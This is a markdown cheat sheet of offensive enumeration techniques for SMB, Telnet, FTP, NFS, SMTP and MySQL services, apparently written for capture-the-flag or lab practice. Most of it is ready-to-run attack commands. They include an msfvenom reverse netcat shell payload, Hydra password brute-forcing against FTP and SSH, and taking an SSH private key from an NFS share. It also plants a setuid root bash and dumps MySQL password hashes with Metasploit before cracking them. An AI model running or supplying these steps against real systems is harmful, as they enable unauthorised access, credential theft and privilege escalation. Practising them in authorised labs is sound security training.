# Enumeration-Techniques
## SMB Enumeration
**1. Scan the network and find out port with** : `nmap -sV -p <port> <ip>` **(default port 445)**\
**2. After that enumerate smb server with Enum4linux** : `enum4linux [options] <ip>`
<details>
  <summary>Enum4linux options</summary>
  <p>-U  get userlist</p>
  <p>-M  get machine list</p>
  <p>-N   get namelist dump (different from -U and-M)</p>
  <p>-S  get sharelist</p>
  <p>-P  get password policy information</p>
  <p>-G  get group and member list</p>
  <p>-a  all of the above (full basic enumeration)</p>
</details>

### Other Enumeration Techniques (unix)
  `nmap -v -p 139,445 -oG smb.txt <ip range>` \
  `nbt scan -r <ip/range>`\
  `nmap -v -p 139,445 –script smb-os-discovery <ip>`
  
**Extra** `smbclient //IP/SHARE` **(for connecting)**

  
### On Windows
  `Net view \\dc01 /all`


## Telnet Enumeration
**1. Scan the network to identify the port (default 23)** : `nmap -sV -p- <ip>` **(scan all ports)** \
**Can use `--stats-every 5s` for checking progress in nmap if you're impatient like me. ;)**\
**Extra** : `sudo tcpdump ip proto \\icmp -i tun0` **use this for starting a tcpdump listner to identify any kind of backdoor etc.**

<h3>Reverse Shell using netcat</h3>

**MSFVenom payload generate** : `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`


## FTP Enumeration
**1. Scan the network like always (use nmap my choice)**\
**2. Try default username & password combinations** [Seclists FTP Default Credentials](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)\
**3. Bruteforce username and passwords using hydra**

**Usage** : `hydra -l <username> -P passwordslist.txt ftp://<ip>`\
**Usage** : `hydra -L usernames.txt -P passwordlist.txt ftp://<ip>:port`

## NFS Enumeration
**1. Scanning target all ports with nmap (agressive scan use with cation)** : `nmap -A -p- <target ip> --stats-every 5s`\
**2. Create a mount point to access shared folder** : `mkdir -p /tmp/mount`\
**3. Listing NFS share** : `/usr/sbin/showmount -e <ip>`\
**4. Mount into your system** : `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

<details>
  <summary>Privilege Escalation</summary>
  
1. Go to mount point here mine is `/tmp/mount` and the shared folder was `cappucino` enter the folder
2. Search for `.ssh/id_rsa` copy that to your system and login using user\
Extra : **Download NFS files using scp** : `scp -i id_rsa username@<target ip>:/bin/bash ~/Downloads/bash`
3. **Download manually** : [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
4. On another tab go to **/tmp/mount/cappucino** on attacker machine and copy the bash shell downloaded previous line [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
5. change the bash file ownership to root using : `sudo chown root bash`
6. Give the bash shell special and executable privilege with : `sudo chmod +xs bash`
7. Login to ssh with the user and check for the bash file you've put just now and execute using : `./bash -p`
8. Bam !! You got the root shell 😅 ?
</details>

## SMTP Enumeration
**1. As always find out the port SMPT running on using (default port 25)** :`nmap -sV -p- <target ip>`\
or `nmap -A -p- <target ip>`\
  **Important for next step: Install metasploit-framework for using available modules for enumeration and exploitation**\
  **`sudo apt install metasploit-framework` or refer to this [Metasploit-Framework](https://github.com/rapid7/metasploit-framework?tab=readme-ov-file)**\
**2. Start Metasploit-Framework using** : `msfconsole`\
**3. Search for module with** : `search smpt_version`\
**4. Select the module by typing** : `use 0` **0 is the index number** or `use auxiliary/scanner/smtp/smtp_version`\
**5. Use** : `info` **or** `options` **to see required options needed to be set**\
**6. Use (in this case only needed to be rhosts becasuse port was same as 25, change if needed) :** `set rhost <target ip>`\
**7. Run the exploit using :** `run` or `exploit`\
Got the info !! 😸

<h3>Let's Try other modules for more info</h3>

**1. Search another module** : `search smtp_enum` and select it using `use 0` or `use auxiliary/scanner/smtp/smtp_enum`\
**2. Set required options** : `set rhosts <target ip>` & `set user_file /path/top-usernames-shortlist.txt`\
  **Download the username file from here**: [usernames/seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt)\
**3. Run the exploit:** `run` or `exploit`\
Yay !! Got the username **administrator**

<h3>Now we'll use Hydra to dictionary attack on ssh with the username for passwords using rockyou.txt</h3>

Download [rockyou.txt](https://raw.githubusercontent.com/zacheller/rockyou/refs/heads/master/rockyou.txt.tar.gz)\
**Using hydra :** `hydra -l administrator -P /path/rockyou.txt ssh://<target ip> -t 4`\
(check man page or hydra --help for more combinations)\
**Hope you got the password now login to ssh** `ssh administrator@<ip>` then enter password 🙂

## MYSQL Enumeration (Used Vuln Lab)
**1. Find the port on which mysql db (default port 3306) running using nmap (same as previous command)**\
**2. Open metasploit and search for mysql_sql** : `search mysql_sql` and\
select using `use auxiliary/admin/mysql/mysql_sql` or `use 0` (0 is the index number mentioned in msfconsole)\
**3. Set the required parameters like RHOSTS USERNAME and PASSWORD and run**\
**4. Use module `auxiliary/scanner/mysql/mysql_schemadump` to gather more info**\
**5. Next this module for hashdump `auxiliary/scanner/mysql/mysql_hashdump`**\
**Got the hashdump and start using hashcat or john to crack the hash** : `hashcat -a 0 -m 300 <hash> /path/rockyou.txt`\
**After getting the password logged in due to insecure and same password on ssh**

